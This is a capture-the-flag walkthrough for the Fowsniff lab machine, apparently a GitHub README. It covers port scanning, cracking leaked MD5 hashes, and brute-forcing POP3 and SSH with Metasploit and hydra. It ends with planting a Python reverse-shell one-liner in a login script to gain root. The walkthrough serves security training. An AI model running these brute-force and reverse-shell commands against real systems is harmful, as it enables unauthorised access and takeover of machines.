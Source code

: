 # Fowsniff-Capture The Flag 🔱

Welcome to the world of ethical hacking, where curiosity meets challenge and every keystroke brings you closer to uncovering hidden vulnerabilities. In this Capture the Flag (CTF) adventure, nicknamed **"Fowsniff"**, I'll be stepping into the shoes of a cyber sleuth, navigating through layers of digital defenses to expose the secrets of a vulnerable machine. From port scanning and online sleuthing to cracking hashes and brute-forcing logins, this project is more than just a test of technical skills—it's a journey into the heart of cybersecurity. Join me as I unravel the complexities of **Fowsniff**, one flag at a time. 😁

## Information Gathering 🤓 ## 
The target IP address is provided when the machine is deployed. For this walkthrough, the target IP address is 10.10.110.111.

## Scanning 🩻 ##
**Results**:
- **Port 22/tcp** - SSH - (OpenSSH 7.2p2)
- **Port 80/tcp** - HTTP - (Apache httpd 2.4.18)
- **Port 110/tcp)** - POP3 - (Dovecot pop3d)
- **Port 143/tcp)** - IMAP - (Dovecot imapd)

  ![initial nmap scan](https://github.com/user-attachments/assets/14302e40-3f1e-4e4f-aa0a-88422f970a5b)

## Enumeration 🔬 ##
Access the web server running on port 80 by visiting **htpp://<target_IP>** in the browser. The website reveals that attackers have dumped employee usernames and hashed passwords on Pastebin.

![enum website ](https://github.com/user-attachments/assets/a5865fcc-4eea-41b2-9c8e-bc2e076cf74d)

- We then retrieve the list of usernames and hashed passwords and save the data to files on the local machine.

![Password Hashes](https://github.com/user-attachments/assets/146aeb2c-2134-4165-96c4-c5a7c91de601)

- Crack the MD5 hashes using hashes.com and save the results to hashcracked.txt.

![Hashes decrypted](https://github.com/user-attachments/assets/830dbd85-d7d7-4346-bac7-55c56c816d82)

- Create files for both **usernames** (username.txt) and the newly cracked **passwords** (password.txt.

## Gaining Access 🕸️ ##

- Use Metasploit module for brute forcing the POP3 service: 

  - msfconsole
  - use auxiliary/scanner/pop3/pop3_login
  - set RHOSTS 10.10.110.111
  - set USER_FILE username.txt
  - set PASS_FILE password.txt
  - exploit

![set options in metasploit](https://github.com/user-attachments/assets/ecf9f1c0-aacf-4024-a540-1dfd6e234e04)

- Running the Metasploit module, we find a matching username and password.  We are now able to connect to the POP3 mail server 📨 !!!

![used hydra to dictionary attack](https://github.com/user-attachments/assets/8fb317ff-0597-4a30-9291-617e8a9fd51b)

- Connect to the POP3 service using the newly found credentials:
  - nc <target_IP>
    - *user* <username>
    *password* <password>

- We come across two emails we can view:

![list messages](https://github.com/user-attachments/assets/2dba789f-f52c-4b97-9a35-3b9c7c2544dc)

- Retrieve the emails:
  LIST; RETR 1; RETR 2

![SSH password email sent](https://github.com/user-attachments/assets/41885922-031d-4581-bbf6-84548941d8b4)

- In the second email we accessed, we can view a temp password for SSH and a possible username.
- Next, use hydra to brute force the SSH login:
  - hydra -L users.txt -p "<password>" ssh://<target_IP>
  - or, the first email can shed light on the username.
- Next, we attempt to connect via SSH

![SSH connection](https://github.com/user-attachments/assets/3d6c8518-a748-4351-a11d-fab27a726038)


## Privilege Escalation 🪃

- Once logged in, enumerate the system:
  - Once the SSH connection is established, we must discover what group(s) the user "baksteen" belongs
  - The user belongs to a group called "users" with permission to run '**/opt/cube/cube/sh**'
    - Running this script looks exactly like the banner displayed when logging in via SSH
   
![Screenshot 2024-09-01 at 6 47 56 PM](https://github.com/user-attachments/assets/2661a901-2a0f-4dc7-9d5f-45657e7f54b0)




    - Look at the 
  - Edit **cube.sh** by inserting a Python reverse shell:
    - **python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<local-IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'**
  - Set up a Netcat listener on local machine: **nc -nlvp 1234**
  - In a seperate terminal, SSH back into the machine: **ssh <username>@<target_IP>**
  - The reverse shell should connect to your listener.  Access the root directory and read the flag:
    - cd /root

    - cat flag.txt
   
![flag captured](https://github.com/user-attachments/assets/3ccb6ba7-0d07-4856-95c2-c0247692e722)









